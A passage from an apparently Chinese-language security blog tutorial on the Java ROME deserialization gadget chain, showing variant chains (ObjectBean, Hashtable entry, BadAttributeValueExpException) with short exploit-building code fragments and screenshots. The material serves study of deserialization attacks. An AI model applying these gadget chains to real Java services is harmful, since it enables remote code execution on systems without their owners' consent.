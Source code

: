 ## 0x04 其他利用链

### ObjectBean 替换 EqualsBean

用 `ObjectBean` 来替换 `EqualsBean`，代码基本不变，变了这一句：

JAVA

```
ObjectBean objectBean = new ObjectBean(toStringBeanEvil,toStringBean);  
HashMap hashMap = new HashMap();  
hashMap.put(objectBean,"Drunkbaby");
```

其余都是一样，代码已同步至 Github

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/ObjectBean.png)

### HashTable 替换入口的 HashMap

这和之前讲的 CC 链子大同小异，相对应的，我们这里不进行 `put()` 操作，在 `HashTable` 里面，对于 `HashTable` 中的每个元素，都会调用 `reconstitutionPut()` 方法

所以 EXP 改造一下如下

JAVA

```
Hashtable hashtable= new Hashtable();  
hashtable.put(equalsBean,"Drunkbaby");  
serialize(hashtable);
```

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/HashTable.png)

### BadAttributeValueExpException 利用链

如果师傅们对 CC 链较为熟悉的话，提起 `toString()`，很容易能够想到 `BadAttributeValueExpException` 这个类。在其 `readObject()` 中能够调用任意类的 `toSrting()` 方法。

我们可以过去看一看

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/BadAttributeValueExpException.png)

改造 EXP 如下

JAVA

```
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(toStringBean);  
serialize(badAttributeValueExpException);  
unserialize("ser.bin");
```

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/BadAttributeValueExpExceptionEXP.png)
